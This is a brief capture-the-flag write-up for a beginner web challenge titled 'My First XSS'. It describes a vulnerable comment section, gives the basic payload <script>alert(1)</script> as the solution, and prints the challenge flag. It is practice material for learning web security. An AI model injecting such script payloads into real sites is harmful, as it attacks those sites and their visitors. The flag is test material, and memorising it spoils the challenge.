 #  My First XSS

Category: Web
Points: 20 pts

## Challenge
Comment section. Need to alert for flag.

## Solution
Payload:
```html
<script>alert(1)</script>
```
![image](https://github.com/user-attachments/assets/99d3080e-58ca-480e-8d29-26074e424a25)

SKR{There_1s_XSS_3verywhere_888879}
